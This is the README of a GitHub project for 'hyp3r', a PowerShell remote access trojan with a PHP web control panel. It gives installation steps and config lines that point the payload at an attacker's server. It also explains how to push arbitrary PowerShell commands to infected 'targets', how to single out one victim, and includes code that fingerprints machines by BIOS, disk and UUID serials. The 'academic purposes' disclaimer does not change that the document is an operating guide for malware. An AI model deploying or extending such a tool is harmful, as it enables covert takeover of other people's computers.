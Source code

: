 # hyp3r

<hr>

### hyp3r is a basic RAT written in powershell.

**DISCLAIMER: THIS PROJECT IS FOR ACADEMIC PURPOSES ONLY. THE DEVELOPERS TAKE NO RESPONSIBILITY FOR ILLEGAL USAGE AND/OR POTENTIAL HARMS.**

<hr>

## Requirements
  - PHP 8.0.2 (might work on older versions as well).
  - apache web server.
  - powershell version 5.1 (might work on older versions as well) installed on the target computer for cmdlets to run.

## Features
  - webGUI.
  - live target status.
  - remote shell execution.
  - multi-target support (the script can handle as many targets as your server can).
  - simple and easy to customize scripts.

## Notes
  - the timezone of both the server and the payload are set to GTB Standard Time so take that into account if you want to modify the inner workings of the script.
  - remember to modify the parameters inside the payload (`http.ps1`) to suit your needs.

## Installation

### 1. Clone this repository

You can use git to clone this repository or download .zip file from GitHub.

```bash
git clone https://github.com/xze3n/hyp3r.git
cd hyp3r/
```

### 2. Configure
  - Copy the contents of the `apache` folder to your webserver's page folder.
  - Edit lines `2`, `3` and `4` inside `http.ps1` as follows: 

```
$verurl = 'http://your_website_url_or_ip/script.txt'
$url = 'http://your_website_url_or_ip'
$stop = 'the syntax of your choice to force stop the payload on the target machine'
```

  - Save and close the file. The installation is now complete!

## Usage

#### 1. Start your webserver.
#### 2. Run the powershell payload on the target computer.
#### 3. Open `localhost` inside a browser to see the active connections.

#### To run commands on the target computer(s) open the file called `script.txt` inside your webserver's page folder and modify its contents
  - Example:
        ```
        [System.Console]::Beep(1000,300)
        ```

  -the syntax above will result in a short *beep* given out by the target
### Notes:
  - The commands or scripts you write inside `script.txt` must be powershell code (obviously).
  - If you have multiple targets that listen to the same server the commands inside `script.txt` will be ran by all of the computers listening.
  - If you want to run a command only on one of the targets you will have to get a little creative:

        ```
        if($env:COMPUTERNAME -eq "TARGET-PC") {
          echo "now it will only be executed by targets with the user TARGET-PC"
        }
        ```
  - If the COMPUTERNAME identifier is way to simple and it brings up problems you can use the scripts unique identifier composed of the biosid hddid and uuid of the target computer

        ```
        $a=Get-WmiObject win32_bios | Format-List SerialNumber | out-string; $id_bios=$a.split(' ')[2].Trim(); #bios id
	      $b=wmic diskdrive get serialnumber; $id_hdd=$b.split('\n')[2].Trim(); #hdd id
	      $c=Get-WmiObject -Class Win32_ComputerSystemProduct | Select-Object -Property UUID | out-string;$id_uuid=$c.split(' ')[64].Trim() #uuid
        $ids=$ids=$id_bios, $id_hdd, $id_uuid; $ids=[system.String]::Join("_", $ids);
        if($ids -eq "UNIQUE_IDENTIFIER") {
          doStuff()
        }
        ```


  - You can get the UNIQUE_IDENTIFIER of a computer from the `data.txt` file inside the webserver's page folder: 
  - eg. `CND83492ZZ_69BCTDGFT_760BD1B8-5170-E821-A4C3-1063E5C2E22F`.
